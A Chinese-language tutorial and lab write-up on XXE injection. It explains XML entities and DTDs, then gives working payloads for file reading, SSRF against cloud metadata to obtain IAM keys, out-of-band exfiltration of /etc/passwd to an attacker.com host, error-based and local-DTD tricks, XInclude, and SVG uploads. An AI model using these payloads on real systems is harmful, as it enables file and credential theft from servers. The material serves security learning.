## 什么是XXE
1. XML外部实体注入（也称XXE），是一种web安全漏洞，允许攻击者干扰应用程序对XML数据的处理。它通常允许攻击者在应用服务器的文件系统上查看文件，并允许攻击者与应用程序自身可以访问的任何后端和外部系统交互
2. 在某些情况下，攻击者可以利用XXE漏洞执行SSRF从而升级XXE攻击，从而破坏底层服务器或其他后端基础设施
## XML格式、DTD和外部实体
1. 什么是XML
   1. XML代表可扩展标记语言，用于存储和传输数据。
      1. 与HTML一样，XML也采用树状的标签和数据结构。
      2. 与HTML不同，XML不使用预定义标签，因此可以给出能够描述数据的标签名称
   2. 在互联网早期XML作为数据产生格式流行，但现在逐渐被JSON格式取代
2. XML实体
   1. 什么是XML实体
      1. XML实体实际上是一种占位符，在XML文档中用来表示一段内容，总是以&开头以;结尾.例如：
       `\&lt;表示< `
       `\&gt;表示> `
      2. 简单理解就是一个实体就是一个名字代表一段内容，当XML解析器遇到实体时就会转换为相应的内容
   2. XML实体的作用：
      1. 转义特殊字符：避免被XML解析器误解为标签或其他语法结构。当数据中出现<>等内容时为了避免被解析为标签开始结束等有特殊含义的字符就会使用XML实体来替换
      2. 内容复用：避免重复书写相同内容，一处定义，多处使用。
        ```xml 
        <!ENTITY disclaimer "本软件按现状提供，不提供任何担保。">
        <document>
        <section>&disclaimer;</section>
        <!-- 其他部分再次使用 -->
        <footer>&disclaimer;</footer>
        </document> 
        ```       
      3. 简化复杂内容：长URL、复杂模板等可以定义为实体。
        ```xml
        <!ENTITY long_url "https://very-long-domain.com/path/to/resource?id=123">
        <link>&long_url;</link>         
        ```
   3. XML实体的分类
      1. 预定义实体&自定义实体
         1. 预定义实体（内置实体）XML规范定义了5个实体用于转义字符
            ```xml
            <!-- 数学表达式包含小于号 -->
            <expression>5 &lt; 10</expression>
            <!-- 解析后：5 < 10 -->

            <!-- 属性值中包含双引号 -->
            <message quote="He said &quot;Hello&quot;" />
            <!-- 解析后：He said "Hello" -->

            <!-- 包含与符号的URL -->
            <url>https://example.com/?id=1&amp;name=test</url>
            <!-- 解析后：https://example.com/?id=1&name=test --> 
            ```         
         2. 自定义实体：用户可以在DTD中自定义实体用于简化输入或复用内容
            语法：
            ```xml
            <!DOCTYPE 根元素 [
            <!ENTITY 实体名称 "实体内容">
            ]>
            ```
            示例：
            ```xml 
            <?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE company [
            <!ENTITY company_name "科技无限有限公司">
            <!ENTITY copyright "© 2024 科技无限">
            ]>
            <company>
            <name>&company_name;</name>
            <legal>&copyright;</legal>
            <intro>欢迎来到&company_name;，我们致力于创新。</intro>
            </company>
            ```
      2. 内部实体&外部实体
         1. 内部实体:内容直接在DTD中定义，接在<!ENTITY 后面的引号中如`<!ENTITY author "J.R.R. Tolkien">`
         2. 外部实体:内容存储在外部dtd文件中通过SYSTEM关键词引用如
            ```xml
            <?xml version="1.0"?>
            <!DOCTYPE doc [
            <!ENTITY external_text SYSTEM "note.txt">
            ]>
            <doc>
            &external_text;
            </doc> 
            ```
3. 文档类型定义（DTD）
   1. 作用：用来定义XML文档结构的模版或语法规则，包含：
      1. `文档中允许出现哪元素（如<book>,<title>）`
      2. `元素之间的先后顺序和嵌套关系（如<book>里面必须先有<title>后有<author>）`
      3. `元素出现的次数（如<price>可有可无）`
      4. `元素可以包含的数据类型（如只含文本，或只能为空）`
      5. `元素的属性及其类型（如<book id="">）`
   2. 声明位置：`通过<!DOCTYPE>在XML文档开头声明`
   3. 方式
      1. 内部声明：规则直接写在XML文档内部
         1. 示例：
            ```xml
            <?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE 书架 [
            <!ELEMENT 书架 (书+)>          <!-- 书架必须包含一或多本书 -->
            <!ELEMENT 书 (书名, 作者, 价格?)> <!-- 书必须包含书名、作者，价格可选 -->
            <!ELEMENT 书名 (#PCDATA)>      <!-- 书名是纯文本 -->
            <!ELEMENT 作者 (#PCDATA)>      <!-- 作者是纯文本 -->
            <!ELEMENT 价格 (#PCDATA)>      <!-- 价格是纯文本 -->
            ]>
            <书架>
            <书>
                <书名>三体</书名>
                <作者>刘慈欣</作者>
                <价格>68.00</价格>
            </书>
            </书架> 
            ```
         2. 优点：无需额外管理文件
         3. 缺点：无法被多个XML文档复用
      2. 外部文件引入：规则写在独立的外部.dtd文件中，然后在XML文档中引用该.dtd文件,
         1. 示例：
            外部 DTD 文件 (bookstore.dtd):
            ```dtd
            <!ELEMENT bookstore (book+)>
            <!ELEMENT book (title, author, price)>
            <!ELEMENT title (#PCDATA)>
            <!ELEMENT author (#PCDATA)>
            <!ELEMENT price (#PCDATA)>
            ```
            引用该文件的XML文档：
            ```xml
            <?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE bookstore SYSTEM "bookstore.dtd">
            <bookstore>
            <book>
                <title>XML 入门</title>
                <author>张三</author>
                <price>49.00</price>
            </book>
            </bookstore>
            ```
            SYSTEM：表示引用本地或网络上的dtd文件（用URI标识）
            PUBLIC：表示引用公共的，标准化的DTD标识符（通常用于行业标准，如HTML的DTD）。解析器会有一个映射表去查找实际位置
            PUBLIC 示例：
            ```xml
            <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" 
            "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
            ```
         2. 优点：可以被多个XML文档共享，统一修改规则
         3. 缺点：需要额外管理文件
      3. 混合方式：内部DTD补充或重写外部引入的DTD文件中的规则
         1. 示例：
            ```xml
            <!DOCTYPE 书架 SYSTEM "common.dtd" [
            <!ENTITY 出版社 "科技出版社">
            ]>      
            ```   
         2. common.dtd提供基础元素定义
         3. 内部<!ENTITY 出版社...> 定义了一个额外实体，仅供当前文档使用    
   4. 核心语法元素
      1. `<!ELEMENT>定义元素`
         1. `格式：<!ELEMENT 元素名 （内容模型）>`
         2. 常见内容模型
            （#PCDATA）：纯文本
            （子元素A，子元素B，...）：按指定顺序包含子元素 
            EMPTY：空元素（如`<br/>`）
            ANY：可以包含任意内容（文本或其他元素）
         3. 次数控制符号
            ?：0次或一次
            *：0次或多次
            +：一次或多次
            （无符号）：恰好一次 
         4. 示例
            ```dtd
            <!ELEMENT 家庭 (父亲?, 母亲?, 孩子*)>
            <!ELEMENT 父亲 (#PCDATA)>
            <!ELEMENT 母亲 (#PCDATA)>
            <!ELEMENT 孩子 (名字, 年龄)>
            <!ELEMENT 名字 (#PCDATA)>
            <!ELEMENT 年龄 (#PCDATA)>
            <!ELEMENT 空标签 EMPTY>
            ``` 
      2. `<!ATTLIST>`定义属性
         1. 格式：`<!ATTLIST 元素名 属性名 属性类型 默认行为 [其他属性...]>`
         2. 属性类型
            CDATA：纯文本`<!ATTLIST 书 ISBN CDATA #REQUIRED>`
            ID：唯一标识符，在整个文档中不能重复`<!ATTLIST 书 编号 ID #REQUIRED`
            IDREF/IDREFS：引用文档中其他元素的ID，可引用一个或多个`<!ATTLIST 章节 所属书 IDREF #REQUIRED`
            枚举：值只能是列举的几种之一`<!ATTLIST 书 类型 （小说|传记|科技） “小说”`
         3. 默认行为
            #REQUIRED：该属性必须提供`...书 ID #REQUIRED`
            #IMPLIED：该属性可选`...备注 CDATA #IMPLIED`
            #FIXED“值”：该属性值固定可以写但必须是指定值`... 版本 CDATA #FIXED“1.1”`
            “默认值” ：若未提供则使用该默认值`...语言 CDATA “中文”`
      3. `<!ENTITY>`定义实体
        示例：
        ```dtd
        <!ENTITY 公司名 "深度科技">               <!-- 内部实体 -->
        <!ENTITY 版权声明 SYSTEM "copyright.txt"> <!-- 外部文本实体 -->
        ```
        在XML文档中引用`&公司名;`、`&版权声明;`即可
      4. `<!NOTATION>`定义外部数据格式（如图片、视频类型）	
         示例：`<!NOTATION GIF SYSTEM “image/gif”>` 
   5. 优势：简单，轻量，可验证文档结构
   6. 局限性：语法非XML，数据类型弱，命名空间支持差
## 漏洞如何产生
1. 漏洞产生过程：攻击者构造了一个包含恶意外部实体的XML请求提交给应用程序，应用程序使用默认开启外部实体支持的解析器去解析执行，解析器读取攻击者指定的本地文件或URL，并将结果返回给攻击者
2. 漏洞产生的三个核心环节
   1. 可加载外部实体
   2. 解析器默认支持
   3. 攻击者可以控制输入的XML内容
## XXE攻击的类型
1. 利用XXE来检索文件
   1. 条件：应用程序的响应中会显示攻击者定义的实体值
   2. 攻击手法：
      1. 在DOCTYPE中定义一个外部实体，路径指向我们想要读取的目标文件`<!ENTITY xxe SYSTEM "file:///etc/passwd">`
      2. 将xml文档中会被应用程序返回的元素值替换为我们定义的恶意外部实体`<根元素>&xxe;</根元素>`
   3. 结果：`&xxe;`被解析器解析为/etc/passwd中的内容，并随响应返回给攻击者
   4. 攻击示例
        ```xml
        <?xml version="1.0" encoding="utf-8"?> 
        <!DOCTYPE 根元素 [
            <!ENTITY 文件内容 SYSTEM "file:///etc/passwd">
        ]>
        <根元素>
            <用户名>&文件内容;</用户名>
        </根元素>
        ```
   5. 实战演练：
      1. 抓包查看参数和漏洞利用点
      2. 发现回显的是元素productId中的数据的查询结果，所以构造payload
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE productId [
            <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]> 
         <stockCheck>
          <productId>
          &xxe;
          </productId>
          <storeId>
          1
          </storeId>
         </stockCheck>
        ```
      3. 攻击结果：
         
2. 利用XXE执行SSRF攻击
   1. 目标：内网探测，攻击内部系统，读取云服务器元数据等
   2. 攻击手法：
      1. 将外部实体定义为一个http://URL 
        `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"]>`
      2. 将xml文档中会被应用程序返回的元素值替换为我们定义的恶意外部实体`<foo>&xxe;</foo>`
   3. 结果：服务器向目标url发起请求，如果响应可以被返回就能进行交互；如果响应不能被返回也可以进行盲打SSRF，探测端口开放情况
   4. 实战演练
      1. 
      2. 构造payload进行攻击发现攻击成功，返回"Invalid product ID: latest"
         1. Invalid product ID是因为我们将productId替换为外部实体`&xxe;`
         2. **latest**（关键）：这是因为服务器访问成功我们指定的内部地址`http://169.254.169.254/`并将该地址返回的字符串作为productId对应的返回值返回给我们
         3. 为什么返回latest：
            http://169.254.169.254/ 是AWS EC2实例的元数据根目录，当直接访问该地址是服务器会返回所有可用元数据版本的列表
            目前的AWS元数据版本有1.0，,016-09-02等，而latest是一个符号链接（或者说当前最新版本的别名），指向了当前最新的元数据版本，所以直接访问根目录服务器返回的就是latest
      3. 进一步和服务器进行交互，访问更深的路径
      4. 成功获得服务器的IAM密钥
3. Blind XXE
   1. 什么是Blind XXE：Blind XXE漏洞在应用程序易受外部实体注入时出现，但服务器并未响应返回定义的外部实体的值。这意味着无法直接检索服务器端文件，因此Blind XXE漏洞通常比常规的XXE漏洞更难被利用
   2. 检测并利用Blind XXE的手法
      1. 使用OAST技术检查Blind XXE
         1. 使用普通外部实体
            1. payload：`<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://攻击者服务器地址">]>`
               然后在XML的某个数据值中引用该实体`&xxe;`
            2. 原理：向目标服务器发送包含该恶意DTD的XML，服务器解析XML然后向攻击者服务器发送HTTP请求，攻击者服务器收到请求就证明存在XXE漏洞
            3. 局限性：有时应用或解析器会屏蔽常规的外部实体
            4. 实战演练
               1. 使用burpsuite的Collaborator模块生成一个域名并在此处等待接收Blind XXE漏洞产生的带外网络交互
               2. 将构造的外部实体中的url换成Collaborator生成的域名
               3. 发送XML请求等待响应成功收到目标服务器发起的请求说明猜测到了XXE漏洞
         2. 使用XML参数实体
            1. 关键语法差异
               1. 定义实体时：`<!ENTITY % 实体名 实体内容>`
               2. 引用实体时：`%实体名;`
            2. payload：`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://攻击者的服务器地址.com"> %xxe; ]>`
            3. 原理与区别
               1. 普通实体：需要在XML的主体部分引用它才能触发
               2. 参数实体：在DTD内部被调用时就会触发。解析器解析完`%xxe;`就会立即给我们指定的URL发请求
            4. 为什么能绕过防御：有些检查机制只检查XML主体部分出现的实体`&xxe;`，而忽略了DTD内部的参数实体`%xxe;`
            5. 实战演练
               1. 在Collaborator中生成域名填入参数实体的定义中并在DTD内部引用该参数实体
               2. 发送请求并等待响应成功收到目标服务器向我们指定url发送的请求，探测出存在XXE漏洞
      2. 使用OOB数据外带泄露数据
         1. 依赖条件：目标服务器能主动连接外网（攻击者控制的服务器）
         2. payload
            1. 外部恶意DTD文件内容：
            ```dtd
            <!ENTITY % file SYSTEM "file:///etc/passwd">
            <!ENTITY % eval "<!ENTITY &#x25; exfi SYSTEM "http://攻击者服务器的url/?file=%file;">">
            %eval
            %exif
            ``` 
            2. 发送给目标服务器的攻击载荷：
            ```xml
            <!DOCTYPE foo [
            <!ENTITY % xxe SYSTEM "http://恶意dtd文件袋路径">
            %xxe;
            ]> 
         3. payload代码详解
            1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`定义参数实体 `%file;`它的值是 /etc/passwd 文件的内容 
            2. `<!ENTITY % eval "<!ENTITY &#x25; exfi SYSTEM 'http://attacker.com/?x=%file;'>">`	定义参数实体 `%eval;`，它的值是一段动态代码，这段代码会定义另一个参数实体 `%exfi;`
            注意：`&#x25;` 是 `% `的XML转义，因为嵌套定义时需要用转义形式。
            3. `%eval;`执行 `%eval;`这会动态创建 `%exfi;`实体
            4. `%exfi;`执行 `%exfi;`这会让服务器向 http://攻击者服务器url/?file=文件内容 发起HTTP请求
            5. `<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">`定义参数实体 `%xxe;`指向攻击者服务器上的恶意DTD文件
            6. `%xxe;`立即执行 `%xxe;`导致目标服务器去加载并执行远程的恶意DTD
         4. 攻击流程

            在攻击者服务器上创建恶意dtd文件写入上面的恶意代码
                    |
            向目标服务器发送带有指向上述dtd文件的参数实体的DTD声明的XML请求
                    |
            目标服务器收到XML请求
                    |
            看到`%xxe;`去指定的路径的DTD文件拉取内容
                    |
            解析第一行`%file;`=指定文件/etc/passwd的内容
                    |   
            解析第二行`%eval;`=一段动态参数实体的定义代码
                    |
            执行`%eval;`生成定义`%exif;`参数实体的代码
            执行`%exif;`向指定url发送携带参数值为/etc/passwd的内容的http请求
                    |
            攻击者服务器收到请求，从而在日志中记录了文件的内容

         5. 攻击结果：攻击者汇总日志中看到类似这样的内容
            ```
            GET /?file=root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
            bin:x:2:2:bin:/bin:/usr/sbin/nologin
            ...
            ``` 
         6. 注意：由于在内部DTD中不允许参数实体中嵌套参数实体，但在外部实体中被允许，因此需要引用外部实体
         7. 实战演练
            1. 在portswigger网站给出的服务器上生成恶意dtd文件并保存
            2. 抓包构造payload给目标服务器发送XML请求
            3. 在Collaborator中等待目标服务器的请求成功收到了目标服务器携带出的数据
      3. 利用报错获取数据（Error Based）
         1. 核心思路：精心构造一个错误，让解析器将文件内容夹在错误信息中发送给攻击者
         2. payload
            ```dtd
            <!ENTITY % file SYSTEM "file:///etc/hostname">
            <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///unexisted/%file;'>">
            %eval;
            %error;
            ``` 
         3. 攻击流程

            `%file;`：先去读取目标文件 /etc/hostname的全部内容。
                    |
            `%eval;`：动态地创建了另一个名为 `%error;` 的实体。这个 `%error;` 实体被定义为一个不可能存在的文件路径，其文件名被设置成了 `%file;` 的内容。
                    |
            `%error;`：当解析器尝试去加载这个不存在的文件时，就会抛出一个类似 FileNotFoundException 的错误。
                    |
            泄露数据：在错误消息里，为了告诉你是哪个文件找不到，解析器就会把完整的路径 file:///nonexistent/ + /etc/hostname 的内容打印出来。  

         4. 优点：不依赖网络外带泄露数据，直接通过web应用对错误的响应泄露数据
         5. 实战演练
            1. 在portswigger网站给出的服务器上生成恶意dtd文件并保存
            2. 抓包构造payload给目标服务器发送XML请求
            3. 服务器返回的响应中我们想要的文件内容被成功显示在了错误信息中
      4. 利用本地DTD文件（Local DTD）
         1. 应用场景：当目标服务器完全不出网，也不返回详细错误信息，但可以返回解析器的内部错误时
         2. 核心原理：利用XML规范的漏洞【XML规范规定外部DTD可以允许参数实体嵌套定义，内部DTD不允许参数实体嵌套定义】
         3. 突破方法：XML允许内部DTD覆盖/重写外部DTD中已声明的实体，而且当执行这种覆盖操作时，原来不允许嵌套定义的限制会放松
         4. 攻击实现
            1. 攻击思路
               ```
               找到本地服务器已有的一个DTD文件
                        |
               在内部DTD中先引用这个文件
                        |
               然后在内部DTD中重写覆盖这个dtd文件中的某个实体 
                        |
               将恶意代码塞入上述实体中，由于是覆盖外部实体，所以解析器允许使用嵌套参数实体
                        |
               恶意代码触发错误，把文件内容带出
            2. payload
               ```xml
               <!DOCTYPE foo [
                  <!ENTITY % localdtd SYSTEM "file:///usr/local/app/schema.dtd">
                  <!ENTITY % custom_entity '
                  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
                  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///error/&#x25;file;&#x27;>
                  ">
                  &#x25;eval;
                  &#x25;error;
                  '>
                  %localdtd;
               ]>

               ``` 
            3. 执行流程
               1. `<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">`定义`%localdtd;`，指向服务器本地DTD文件
               2. `<!ENTITY % custom_entity '...'>	`重新定义外部DTD中已存在的`%custom_entity;`，把恶意代码作为它的值
               3. `%localdtd;`加载外部DTD，此时外部DTD中的`%custom_entity;`被内部的覆盖
               4. 解析器执行被覆盖的`%custom_entity;	`触发基于错误的XXE，读取`/etc/passwd`
               5. 解析器尝试加载不存在的文件	抛出`FileNotFoundException`，错误消息中包含文件内容
         5. 难点解决
            1. 如何找到已有的DTD文件
               1. 试探常见路径：
                  1. 发送以下载荷，如果返回错误（如文件不存在），说明该路径不存在；如果没有错误或返回不同错误，说明存在。
                     ```xml
                     <!DOCTYPE foo [
                     <!ENTITY % file SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
                     %file;
                     ]>
                     ```
                  2. 常见Linux DTD路径
                      
               2. 利用已知系统版本：
                  如果知道目标服务器的操作系统和版本，可以直接搜索该版本自带的DTD文件。
            2. 如何找到可覆盖的实体
               1. 获取到本地dtd文件后需要分析文件内容获取可覆盖的实体
               2. 寻找条件：
                  1. 实体在DTD中只被使用一次或不影响XML结构
                  2. 实体的值可以被替换成恶意代码
               3. 示例：
                  ```dtd
                  <!ENTITY % version "4.2">
                  <!ENTITY % local.common.attrib ""> 
                  ```
         6. 实战演练
            1. 题目要求：
               
            2. 构造payload：
               ```xml
               <!DOCTYPE foo [
               <!ENTITY % localdtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
               <!ENTITY % ISOamso '
               <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
               <!ENTITY &#x25; eval "
               <!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///error/&#x25;file;&#x27;>
               ">
               &#x25;eval;
               &#x25;error;
               '>
               %localdtd;
               ]>
               ``` 
            3. 抓包修改
               
            4. 发送后成功，报错响应成功带出文件内容 
## 寻找隐藏攻击面
1. 通过XInclude来检索文件
   1. 利用场景：
      1. 用户输入`productId=381`
         1. 后端拼接
            ```xml
            <?xml version="1.0"?>
            <order>
               <productId>381</productId>
               <!-- 其他后端字段 -->
            </order>
            ```
      2. 困境：当请求是表单格式（比如Content-Type: application/x-www-form-urlencoded），但后端会把数据拼接到一个xml文档中，然后在解析时【这种情况下攻击者无法控制整个XML文档，所以无法定义<!DOCTYPE>来注入外部实体】
      3. 解决方案：XInclude是XML规范的一部分，允许在一个XML文档中包含另一个文件的内容
         1. 不需要控制整个XML文档，但需要能够控制其中的一个数据项的内容 
         2. 在该数据项中插入一个`<xi:include>`标签
         3. 当后端解析XML文档时，Xinclude会被执行，读取指定的文件内容
   2. 攻击示例
      1. 攻击者payload
         ```xml
         <foo xmlns:xi="http://www.w3.org/2001/XInclude">
            <xi:include parse="text" herf="file:///etc/passwd">
         </foo> 
      2. 后端拼接
         ```xml
         <?xml version="1.0"?>
         <order>
            <productId>
               <foo xmlns:xi="http://www.w3.org/2001/XInclude">
                     <xi:include parse="text" href="file:///etc/passwd"/>
               </foo>
            </productId>
            <!-- 其他后端生成的字段 -->
         </order>
         ```
      3. 后端执行流程
         ```
         XML解析器看到<xi:include>标签
                  |
         根据XInclude规范，它会去读取href指定的文件（/etc/passwd）
                  |
         文件内容被嵌入到<productId>元素中
                  |
         如果应用返回包含productId的响应，你就能看到文件内容
         ```
      4. 标签定义规范详解
         1. `<foo>`	这是一个普通的XML元素标签，名字foo可以是任意名称，没有特殊意义。它只是一个容器，用来包裹`<xi:include>`标签。`<foo>`只是一个容器。XInclude规范要求`<xi:include>`必须在一个XML元素内部。
         2. xmlns:xi="http://www.w3.org/2001/XInclude"	命名空间声明。xmlns是XML命名空间的固定关键字，xi是给这个命名空间起的前缀名（可以换成其他字母，比如xmlns:xinclude="..."）。后面的URL是XInclude规范的官方命名空间标识符（不是实际网络地址）。
         3. `<xi:include`	标签名，xi是前缀（对应上面的命名空间），include是XInclude规范定义的指令名称。意思是：在此处包含另一个文档的内容。
         4. parse="text"	属性，告诉解析器：把目标文件当作普通文本来读取，不要尝试把它当作XML解析。如果省略这个属性，默认值是parse="xml"，会把目标文件当作XML来解析，如果文件内容不是合法的XML就会报错。对于/etc/passwd这种纯文本文件，必须用parse="text"。
         5. href="file:///etc/passwd"	属性，指定要包含的文件路径。file:///是URI协议，表示读取本地文件。/etc/passwd是Linux系统中存储用户信息的文件。
         6. `/>`	自闭合标签结尾，表示这个元素没有子元素。
   3. 实战演练
      1. 
      2. payload
         ```xml
         <foo xmlns:xi="http://www.w3.org/2001/XInclude">
            <xi:include parse="text" href="file:///etc/passwd"/>
         </foo> 
         ```
      3. 抓包找到后端拼接的参数并将值改为我们的payload
      4. 成功带出文件内容
2. 通过文件上传进行XXE攻击
   1. 关键点：上传的文件的格式和服务器解析这个文件的方式可能不一致
   2. 核心思路：找到一个本身是被允许上传的合法文件格式（如：svg图片，DOCX文档等），在其中注入XML恶意代码，当服务器解析该文件时，恶意代码就会被解析执行
   3. 攻击流程：
      
   4. 攻击示例
      1. SVG图片攻击
         1. payload
            ```
            <?xml version="1.0" encoding="UTF-8"?>
            <!DOCTYPE svg [
               <!ENTITY xxe SYSTEM "file:///etc/passwwd">
            ]> 
            <svg width="500" height="500" xmlns="http://www.w3.org/2000/svg">
               <text x="10" y="50">&xxe;</text>
            </svg>
            ```
            `<text>` 标签会把 `&xxe;` 的内容渲染出来
            如果服务器生成缩略图、或者返回SVG内容，你就能看到文件内容
      2. DOCX / XLSX / PPTX攻击 
         1. Office 2007+ 的文档（.docx、.xlsx、.pptx）本质上是一个 ZIP 压缩包，里面包含多个 XML 文件。
         2. 攻击流程
            ```
            创建一个正常的.docx文档
                     |
            解压缩之后找到word/document.xml 或 [Content_Types].xml
                     |
            注入恶意payload
                     |
            重新打包错误.zip文件然后改名为.docx
                     |
            发送给服务端 
                     |
            当服务器解析这个文档（比如提取文本内容生成预览）时，XXE 就会触发。
            ```
         3. payload
            ```xml
            <!DOCTYPE doc [
               <!ENTITY xxe SYSTEM "file:///etc/passwd">
            ]>
            <document>
               <body>
                  <p>&xxe;</p>
               </body>
            </document>
            ```
   5. 实战演练
      1. 
      2. payload
         ``` 
         <?xml version="1.0" encoding="utf-8" ?>
         <!DOCTYPE svg [
            <!ENTITY xxe SYSTEM "file:///etc/hostname">
         ]>
         <svg width="500" height="500" xmlns="http://www.w3.org/2000/svg">
            <text x="10" y="50">&xxe;</text>
         </svg>
         ```
      3. 将上述payload写入svg文件中然后上传发现发布者的头像中好像有文字，不过太小了看不清
      4. 将像素进行调整
         ``` 
         <?xml version="1.0" encoding="utf-8" ?>
         <!DOCTYPE svg [
            <!ENTITY xxe SYSTEM "file:///etc/hostname">
         ]>
         <svg width="50" height="50" xmlns="http://www.w3.org/2000/svg">
            <text x="10" y="50">&xxe;</text>
         </svg>
         ```
         结果好像改的太大了没能把内容显示完整
      5. 继续微调`<svg width="100" height="50" xmlns="http://www.w3.org/2000/svg">`这次成功完整清晰的显示出/etc/hostname中的内容
3. 通过修改后的内容类型进行XXE攻击
   1. 核心思路：不需要去找一个“本来就用XML”的接口。只需要找到一个“本来不用XML，但服务器会宽容地解析XML”的接口。
   2. 原因：开发者本意是处理表单数据，但服务器端代码却“宽容地”同时支持了XML格式，从而给了攻击者可乘之机。
       
   3. 攻击步骤：
      1. 找到一个正常的POST请求（表单格式 application/x-www-form-urlencoded）
      2. 把 Content-Type 改成 text/xml 或 application/xml
      3. 把请求体改成XML格式
      4. 如果服务器宽容地接受并解析了你的XML，你就触发了隐藏的XXE攻击面
   4. 示例
      1. 正常请求
         
      2. 修改后的xml格式请求
          
      3. 攻击者利用
         
         探测是否存在XXE。如果能触发Collaborator交互，说明存在XXE，然后进行下一步攻击  
## 如何查找和测试XXE漏洞 
1. 决策流程
2. 方法
   1. 文件读取测试	尝试让服务器返回 /etc/passwd 的内容
   2. 盲打XXE测试	让服务器访问你的Collaborator地址，证明漏洞存在
   3. XInclude测试	当无法控制完整XML时，用XInclude尝试读取文件
3. 配合Burpsuite自动化
   1. Burp Scanner 会自动检测XML输入点
   2. 它会自动注入各类XXE载荷（包括外部实体、XInclude等）
   3. 它会自动配合Collaborator进行盲打检测
   4. 它会分析响应中的变化，识别漏洞
## 问题与思考
1. 为什么要动态创建
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
   %eval;
   %exfiltrate;
   ```
   而不是这样
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % exfiltrate SYSTEM "http://attacker.com/?x=%file;">  <!-- 这里直接使用了 %file; -->
   %exfiltrate;
   ```
   原因：
   1. 直接引用：试图在“运行时”拼接 URL，被非法字符阻断。
   2. 动态创建：利用“编译时”注入，将文件内容硬编码进 DTD，生成一个虽然畸形但能被发送出去的请求。
   3. 外部请求的拼装环节”  “内部DTD的构建环节” 的区别
      1. 触发时机不同
         1. 外部请求拼装（直接引用）：解析器在执行`%exfiltrate;`时是在准备发起网络请求的瞬间去展开 `%file; `的。此时，解析器拿着` http://attacker.com/?x=%file;` 这个模板，试图把文件内容塞进 URL 里发出去。
         2. 内部DTD构建（动态创建）：解析器是在读取和编译 DTD 规则时展开 %file;。当调用` %eval;`时，解析器把 %file; 的内容（比如 root:x:0:0...）直接写死进了 DTD 的语法树里，生成了一个新的实体定义。等到后面真正要执行`%eval;`发起请求时，URL 早就已经是包含文件内容的“成品”了。
      2. 语法的限制不同（“属性值限制” vs “实体定义特权”）这是导致直接引用失败的根本原因。
         1. 外部请求拼装：在直接引用中，`%file; `是作为 URL 字符串（在 XML 中属于属性值的一部分）被展开的。XML 规范对属性值有极其严格的限制，不能包含未转义的换行符、特殊符号等。/etc/passwd 里的内容一旦在这里展开，会直接导致 XML 语法报错（Malformed），解析器连请求都发不出去就直接罢工了。
         2. 内部DTD构建：在动态创建中，`%file;` 的展开发生在 DTD 内部实体声明的上下文中。解析器此时处于“定义规则”的模式，它允许将读取到的文件内容作为实体值的一部分进行拼接。这就绕过了属性值的严格语法检查，成功把敏感数据“注入”到了新的实体定义里。
      3. 解析器的上下文状态不同（“运行时” vs “编译时”）
         1. 外部请求拼装：属于运行时（Runtime）的字符串替换。解析器拿着一个现成的 URL 去请求，发现里面混进了非法字符，直接抛出异常。
         2. 内部DTD构建：属于编译时（Compile-time）的代码生成。解析器在编译 DTD 阶段，动态生成了一段新的代码（即包含敏感数据的实体声明）。对于解析器来说，这段新生成的代码是它自己“编译”出来的，因此它会忠实地执行这段代码，带着包含敏感数据的畸形 URL 向外发起请求。
      4. 总结来说：把拼装环节移到内部 DTD 构建环节，本质上是利用了 XML 解析器在“编译 DTD”阶段相对宽松的拼接特权，绕过了“发送 HTTP 请求”阶段严格的 URL 语法检查。这样一来，虽然发出去的 URL 依然是畸形的，但请求已经成功从服务器发出了。攻击者只需要在自己的服务器日志里，捕获这条带着敏感数据的畸形请求，就能提取出想要的文件内容。
   